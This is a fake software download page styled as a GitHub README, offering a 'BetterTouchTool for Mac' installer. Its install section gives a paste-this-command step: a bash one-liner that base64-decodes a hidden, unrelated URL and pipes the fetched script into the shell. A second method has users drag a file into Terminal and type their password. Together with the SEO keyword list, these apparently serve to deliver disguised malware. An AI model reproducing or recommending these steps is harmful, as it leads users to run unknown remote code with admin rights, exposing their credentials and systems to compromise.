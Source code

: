 # BetterTouchTool Mac Download - Customize and Enhance Your Workflow 

![BetterTouchTool Screenshot 1](https://mac-cdn.softpedia.com/screenshots/BetterTouchTool_23.jpg)

---

## 🔽 Download BetterTouchTool for Mac

[![Download Now](https://img.shields.io/badge/Download_BetterTouchTool-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/bettertouchtool)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is BetterTouchTool for Mac?

BetterTouchTool is an incredibly versatile utility for macOS, designed to give users full control over their input devices—trackpads, mice, keyboards, and even the Touch Bar. By enabling custom gestures, keyboard shortcuts, and automated triggers, it transforms how you interact with your Mac, boosting productivity for designers, developers, and everyday users alike. With BetterTouchTool, repetitive tasks become effortless, and your workflow becomes smoother and more intuitive.  

The software offers an extensive range of customization options, allowing you to map gestures to launch apps, adjust volume, control media playback, or run complex automation scripts. One of its standout features is window management—similar to Windows’ snapping functionality—letting you organize your workspace with ease. Beyond basic shortcuts, BetterTouchTool supports advanced automation, making it a must-have for power users who want to maximize efficiency.  

BetterTouchTool works seamlessly with various devices, including Apple’s Magic Trackpad and third-party peripherals. Its user-friendly interface, combined with detailed documentation, ensures that even beginners can customize their setup effortlessly. Whether you want to streamline your workflow, reduce repetitive actions, or simply make your Mac more responsive, BetterTouchTool unlocks the true potential of your input devices.

![BetterTouchTool Screenshot 2](https://mac-cdn.softpedia.com/screenshots/BetterTouchTool_26.jpg)

---

## Key Features & Benefits

- 🖱 Customize trackpad, mouse, and keyboard inputs  
- ✨ Create custom gestures and shortcuts  
- 🖥 Window snapping and management tools  
- ⚡️ Advanced automation and scripting support  
-   Compatible with Touch Bar and third-party devices  
- 🎮 Boost productivity with personalized workflows  

Whether you're a power user or just looking to enhance your Mac experience, BetterTouchTool offers endless customization possibilities.

---

## 🔍 Keywords

BetterTouchTool for Mac, BetterTouchTool Mac Download, BetterTouchTool for Mac Download, BetterTouchTool Mac, BetterTouchTool Download Mac, BetterTouchTool Download for Mac, BetterTouchTool full version, Mac Download BetterTouchTool, Download Mac BetterTouchTool, Download BetterTouchTool Mac, Download BetterTouchTool for Mac
